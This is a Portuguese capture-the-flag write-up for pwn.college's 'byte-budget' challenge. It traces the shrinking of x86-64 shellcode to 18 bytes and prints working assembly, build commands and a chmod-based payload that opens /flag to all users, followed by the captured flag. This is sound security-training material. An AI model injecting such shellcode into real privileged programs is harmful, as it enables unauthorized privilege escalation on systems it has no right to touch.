# pwn.college — Byte Budget (Shellcode Writing)
### Program Security · Shellcode Writing · 18-Byte Shellcode Constraint

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Program Security — Shellcode Writing

---

## Descrição do Desafio

O desafio `byte-budget` impõe duas restrições simultâneas:

1. **O shellcode está limitado a 18 bytes** — o binário lê apenas `0x12` bytes da `stdin`
2. **A página de memória do shellcode tem permissão de escrita removida** — o mesmo comportamento do desafio anterior ([syscall-shenanigans](syscall-shenanigans.md))

O ambiente segue o padrão da trilha: variáveis sanitizadas, file descriptors fechados, EUID modificado. O objetivo é ler o `/flag`.

---

## Reconhecimento Inicial — Por que a abordagem anterior não funciona

O ponto de partida foi o shellcode clássico de open → read → write → exit, usado nos desafios anteriores:



```
208 shellcode1.raw
```

Com **208 bytes**, o shellcode clássico está completamente fora do orçamento. Não há como comprimir a lógica de open + read + write + exit para caber em 18 bytes — são pelo menos 4 syscalls, cada uma exigindo configurar múltiplos registradores.

A conclusão foi direta: **a abordagem precisa mudar completamente**.

---

## A Nova Estratégia: `chmod` no `/flag`

Em vez de ler o `/flag` diretamente via shellcode, a ideia foi usar uma única syscall — **`chmod`** — para alterar as permissões do arquivo. Assim, após a execução do shellcode injection, bastaria rodar `cat /flag` como usuário comum para ler a flag.

A syscall `chmod` (número 90 = `0x5a`) recebe apenas dois argumentos:

```
rax = 90          → número da syscall chmod
rdi = path        → caminho do arquivo
rsi = 0x1ff       → novas permissões (0o777 — leitura/escrita/execução para todos)
```

Isso elimina completamente a necessidade de buffer, `read`, `write` e `exit` — caindo para **uma única syscall**.

---

## Shellcode4 — Primeira Tentativa (29 bytes)

O primeiro shellcode com a nova abordagem usou `mov rax`, `lea rdi` e `mov rsi` com registradores de 64 bits:



```asm
.globl _start
.intel_syntax noprefix

_start:
    mov rax, 90
    lea rdi, [rip + flag]
    mov rsi, 0777
    syscall

flag:
    .string "/flag"
```

```
29 shellcode4.raw
```

Com 29 bytes, ainda muito acima do limite. Era hora de analisar instrução por instrução com `objdump` para identificar onde cortar.

---

## Shellcode5 — Otimizando com `push`/`pop` (25 bytes)

Observando o tamanho de cada instrução, a primeira otimização foi substituir `mov rax, 90` (que gera 7 bytes com REX.W) por `push 90` + `pop rax` — economizando bytes ao usar imediato de 8 bits:





```asm
_start:
    push 90
    pop rax
    lea rdi, [rip + flag]
    mov rsi, 077
    syscall

flag:
    .string "/flag"
```

```
25 shellcode5.raw
```

Economia de 4 bytes — mas ainda longe dos 18. O `objdump` revelou que `lea rdi` e `mov rsi` eram funções que carregavam muitos bytes. Então a ideia foi substituí-las por instruções de push e pop (menores).

---

## Shellcode6 — Eliminando o `lea` com `push` na Stack (20 bytes)

A grande mudança foi abandonar o `lea rdi, [rip + flag]` — que precisa de endereçamento relativo ao `rip` e gera 7 bytes — e construir a string `/flag` diretamente na stack com dois `push`:

- `push 0x67616c66` → empurra `flag` (em little-endian: `f`, `l`, `a`, `g`)
- `push 0x2f` → empurra `/` (com zero-extension para 8 bytes)
- `mov rdi, rsp` → aponta `rdi` para o topo da stack, onde está `/flag\0`





```asm
_start:
    push 0x67616c66
    mov rdi, rsp
    push 90
    pop rax
    mov rsi, 077
    syscall
```

```
20 shellcode6.raw
```

Economia de mais 5 bytes — mas ainda 2 acima do limite. O `objdump` mostrou que `mov rsi, 0x1ff` com registrador de 64 bits gerava bytes extras de null devido ao zero-extension implícito do modo 64 bits.

---

## Shellcode7 — Trocando `esi` por `si` (18 bytes, mas com bug)

A observação foi que `mov esi, 0x1ff` gera 5 bytes (`be ff 01 00 00`) porque o assembler inclui os null bytes do zero-extension. Usar `mov si, 0x1ff` — registrador de 16 bits — gera apenas 4 bytes (`66 be ff 01`), economizando 1 byte. Além disso, o `push 0x2f` foi removido — a string na stack ficou apenas com `flag` sem o `/`:



```asm
_start:
    push 0x67616c66
    mov rdi, rsp
    push 90
    pop rax
    mov esi, 0777
    syscall
```

```
18 shellcode7.raw
```

18 bytes exatos — dentro do limite! Porém, ao executar:



**Segmentation fault.** Analisando o shellcode7.elf através do GDB, percebi que a SegFault se deu após a chamada de sistema, e mesmo assim as permissões não mudaram. Isso me fez observar o caminho do arquivo que coloquei em runtime na stack e descobrir que eu não havia colocado o "/" de "/flag". Então o programa não estava encontrando o arquivo alvo e não alterava em nada. A Segmentation fault se dava, pois, como o fluxo do programa estava na stack, ele continuava lendo mesmo depois de ter percorrido a string "flag", acessando um endereço que inválido.

---

## Shellcode8 — Adicionando o `/` de volta (19 bytes, inválido)

A tentativa óbvia foi recolocar o `push 0x2f` para completar o caminho `/flag`, e usar `mov si` (16 bits) em vez de `mov esi` (32 bits) para compensar o byte extra:



```asm
_start:
    push 0x67616c66
    push 0x2f
    mov rdi, rsp
    push 90
    pop rax
    mov si, 0x1ff
    syscall
```

```
19 shellcode8.raw
```

19 bytes — 1 acima do limite. Sem saída aparente mantendo essa estrutura.

---

## Shellcode9 — A Solução: Rodar em `/` (18 bytes)

A solução veio de uma percepção simples: o `chmod` usa um **caminho relativo ao diretório de trabalho atual** quando o path não começa com `/`. Se o shellcode for executado **a partir do diretório `/`**, então `flag` (sem a barra) aponta corretamente para `/flag`.

Ou seja: em vez de incluir o `/` no shellcode, basta executar o binário com o diretório de trabalho em `/`:

```bash
cd /
cat ~/shellcode9.raw | /challenge/byte-budget
```



```asm
.global _start
.intel_syntax noprefix

_start:
    push 0x67616c66     # empurra "flag" na stack (little-endian)
    mov rdi, rsp        # rdi aponta para "flag\0" na stack
    push 90             # push 0x5a
    pop rax             # rax = 90 (chmod)
    mov si, 0x1ff       # rsi = 0o777 (permissões totais)
    syscall             # chmod("flag", 0777) → com cwd=/ equivale a chmod("/flag", 0777)
```

Compilando e extraindo:

```bash
gcc -nostdlib -static shellcode9.s -o shellcode9.elf
objcopy --dump-section .text=shellcode9.raw shellcode9.elf
```

Executando a partir de `/`:

```bash
cd /
cat ~/shellcode9.raw | /challenge/byte-budget
cat /flag
```



O `chmod` alterou as permissões do `/flag` para `rwxrwxrwx`, e o `cat /flag` como usuário comum funcionou:

```
-rwxrwxrwx 1 root root 58 Apr 11 01:24 /flag
pwn.college{sKwvfcj9pJZiLST6034pdEBSJ3j.dRjMywCOzYTNxEzW}
```

> **Nota:** Após a solução, ficou claro que o shellcode7 — que já tinha 18 bytes e não possuía o `push 0x2f` — **também teria funcionado** se executado a partir de `/`. A adição do `push 0x2f` no shellcode8 foi desnecessária; o problema nunca foi o shellcode em si, mas o diretório de trabalho no momento da execução.

---

## Resumo do Fluxo de Exploração

```
1. shellcode1 (208 bytes) → completamente inviável para 18 bytes
2. Nova abordagem: chmod("/flag", 0777) com uma única syscall
3. shellcode4 (29 bytes) → mov rax + lea rdi + mov rsi de 64 bits, muito grande
4. shellcode5 (25 bytes) → push/pop para rax elimina REX.W, mas lea rdi ainda pesa
5. shellcode6 (20 bytes) → /flag construído na stack com push, elimina lea rdi
6. shellcode7 (18 bytes) → mov si (16 bits) em vez de mov esi, mas sem / na stack → segfault
7. shellcode8 (19 bytes) → push 0x2f recolocado + mov si, mas ultrapassa 1 byte
8. shellcode9 (18 bytes) → sem push 0x2f, executado em / → chmod funciona → flag obtida
```

---

## Evolução do Tamanho por Shellcode

| Shellcode | Bytes | Mudança principal | Resultado |
|---|---|---|---|
| shellcode1 | 208 | open + read + write + exit | ❌ Muito grande |
| shellcode4 | 29 | chmod com registradores 64 bits | ❌ |
| shellcode5 | 25 | `push`/`pop` para `rax` | ❌ |
| shellcode6 | 20 | `/flag` na stack com `push`, elimina `lea rdi` | ❌ |
| shellcode7 | 18 | `mov si` (16 bits), sem `push 0x2f` | ❌ Segfault (sem `/` no path) |
| shellcode8 | 19 | `push 0x2f` + `mov si` | ❌ 1 byte acima |
| shellcode9 | 18 | Igual ao shellcode7, executado em `/` | ✅ Flag obtida |

---

**Técnicas:** Shellcode size optimization · Syscall argument minimization · `chmod` privilege escalation via shellcode · Stack-based string construction · 16-bit register encoding to save bytes · Relative path exploitation via working directory control · `push`/`pop` pattern to avoid REX.W prefix
